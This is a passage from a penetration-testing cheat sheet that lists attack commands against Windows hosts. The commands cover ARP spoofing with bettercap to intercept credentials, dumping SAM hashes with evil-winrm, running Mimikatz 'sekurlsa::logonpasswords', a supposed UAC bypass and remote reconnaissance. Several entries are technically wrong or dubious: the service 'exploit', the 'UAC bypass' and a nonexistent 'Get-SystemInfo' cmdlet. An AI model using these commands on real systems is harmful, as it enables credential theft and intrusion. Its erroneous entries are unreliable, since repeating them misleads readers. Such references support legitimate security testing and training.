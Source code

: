     ```bash
    bettercap -iface <interface> -T <target_ip> --proxy
    ```
* **Description:** Intercept and analyze traffic between the client and server, potentially capturing credentials by performing an ARP spoofing attack.

#### Capturing Credentials via Evil-WinRM

*   **Tool:** \[\[Evil-WinRM Cheat Sheet]]

    ```bash
    evil-winrm -i <target_ip> -u <username> -p <password> --sam
    ```
* **Description:** Extract credentials from the Security Account Manager (SAM) database on the target system.

#### Extracting Credentials via PowerShell

*   **Tool:** \[\[Mimikatz Cheat Sheet]]

    ```powershell
    Invoke-Mimikatz -Command "sekurlsa::logonpasswords"
    ```
* **Description:** Executes Mimikatz on the remote machine to dump plaintext credentials or hashes.

### Privilege Escalation

#### Exploiting Misconfigured Services

*   **Tool:** \[\[4. Tool Guides/Incomplete/PowerShell]]

    ```powershell
    Get-Service -Name <vulnerable_service> | Set-Service -StartupType Automatic
    ```
* **Description:** Identifies and exploits misconfigured services that can be manipulated to escalate privileges.

#### Bypassing UAC

*   **Tool:** \[\[4. Tool Guides/Incomplete/PowerShell]]

    ```powershell
    Invoke-Command -ComputerName <target_ip> -ScriptBlock { Start-Process cmd -Verb RunAs }
    ```
* **Description:** Attempts to bypass User Account Control (UAC) to gain elevated privileges on the remote machine.

### Internal Reconnaissance

#### Gathering System Information

*   **Tool:** \[\[4. Tool Guides/Incomplete/PowerShell]]

    ```powershell
    Invoke-Command -ComputerName <target_ip> -ScriptBlock {Get-SystemInfo}
    ```
* **Description:** Collects detailed system information from the remote machine to aid in further attacks.
